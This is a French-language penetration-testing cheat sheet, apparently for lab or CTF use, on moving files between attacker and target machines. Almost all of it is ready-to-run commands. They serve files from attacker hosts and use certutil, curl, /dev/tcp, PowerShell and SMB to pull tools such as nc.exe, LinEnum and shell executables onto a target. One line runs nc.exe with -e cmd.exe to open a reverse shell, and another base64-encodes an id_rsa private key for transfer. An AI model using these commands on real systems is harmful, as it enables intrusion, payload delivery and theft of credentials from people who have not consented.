 # Serveur

## Apache

```bash
sudo systemctl start apache2
```

Remarque :
- Copier les fichiers dans /var/www/html/

## Python

```bash
sudo python -m http.server 8000
sudo python -m pyftpdlib -p 21
```

## SMB 

```bash
impacket-smbserver share . -smb2support -username user -password s3cureP@ssword
```

# Télécharger

## Bash

```bash
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

## Certutil

```powershell
certutil -f -urlcache http://192.168.1.200:6666/nc.exe nc.exe
```

## cURL

```bash
curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```

## FTP

```bash
wget -r ftp://anonymous@192.168.237.127:30021
```

## Netcat

```bash
nc <MACHINE_IP> <PORT> < fichier.txt
nc -lnvp <PORT> > fichier.txt
```

## PHP

```bash
php -S 0.0.0.0:8000
```

## PowerShell

```powershell
iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe

powershell "(New-Object 
Net.WebClient).Downloadfile('http://192.168.1.5:8080/shell-name.exe', 'shell-name.exe')"

powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe

Invoke-WebRequest -Uri "http://www.coucou.com" -OutFile "C:\path\file"

$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

## SCP

```bash
scp cve-xxxx.c test@192.168.123.216:
scp Administrator@10.10.0.124:blood.zip /root/Downloads
```

## SMB

```powershell
net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe

cmd.exe /c //192.168.45.175/share/nc.exe -e cmd.exe 192.168.45.175 1234
```

## WGET

```bash
wget http://IP_ADDRESS:8000/filename -outfile "file"
```

# Encodage

```bash
cat id_rsa |base64 -w 0;echo
```

```powershell
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRUFBQUFBQkc1dmJtVUFBQUFFYm05dVpRQUFBQUFBQUFBQkFBQUFsd0FBQUFkemMyZ{...} qUlZBQUFBRkhCc1lXbHVkR1Y0ZEVCamVXSmxjbk53WVdObEFRSURCQVVHCi0tLS0tRU5EIE9QRU5TU0ggUFJJVkFURSBLRVktLS0tLQo="))
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```